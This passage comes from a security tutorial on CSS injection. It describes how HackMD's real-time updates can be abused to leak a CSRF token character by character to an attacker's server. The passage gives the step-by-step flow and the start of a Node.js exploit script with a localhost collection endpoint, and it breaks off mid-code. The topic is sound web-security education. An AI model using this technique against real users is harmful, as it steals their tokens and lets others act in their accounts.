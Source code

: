 As you can see, `unsafe-inline` is allowed, so you can insert any CSS.

After confirming that CSS can be inserted, you can start preparing to steal data. Remember the unanswered question earlier, "How to steal characters after the first one?" Let me answer using HackMD as an example.

First, CSRF tokens usually change when the page is refreshed, so you cannot refresh the page. Fortunately, HackMD supports real-time updates. Whenever the content changes, it is immediately reflected on other clients' screens. Therefore, it is possible to "update styles without refreshing." The process is as follows:

1. Prepare the style to steal the first character and insert it into HackMD.
2. The victim opens the page.
3. The server receives the request for the first character.
4. The server updates the HackMD content and replaces it with the payload to steal the second character.
5. The victim's page updates in real-time and loads the new style.
6. The server receives the request for the second character.
7. Repeat this process until all characters are stolen.

A simple diagram of the flow is as follows:

![flow](pics/17-04.png)

The code is as follows:

``` js
const puppeteer = require('puppeteer');
const express = require('express')

const sleep = ms => new Promise(resolve => setTimeout(resolve, ms));

// Create a hackMD document and let anyone can view/edit
const noteUrl = 'https://hackmd.io/1awd-Hg82fekACbL_ode3aasf'
const host = 'http://localhost:3000'
const baseUrl = host + '/extract?q='
const port = process.env.PORT || 3000

;(async function() {
  const app = express()
  const browser = await puppeteer.launch({
```